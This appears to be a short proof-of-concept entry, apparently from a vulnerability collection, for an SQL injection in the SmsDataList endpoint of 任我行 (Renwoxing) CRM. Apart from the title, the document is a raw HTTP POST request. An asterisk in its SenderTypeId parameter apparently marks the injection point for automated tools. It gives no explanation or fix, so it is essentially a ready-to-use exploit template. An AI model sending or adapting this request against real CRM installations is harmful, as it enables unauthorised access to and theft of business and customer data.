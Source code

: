 # 任我行 CRM SmsDataList SQL注入漏洞

## 任我行 CRM SmsDataList SQL注入漏洞
```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.1361.63 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 170

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=00000000*

```

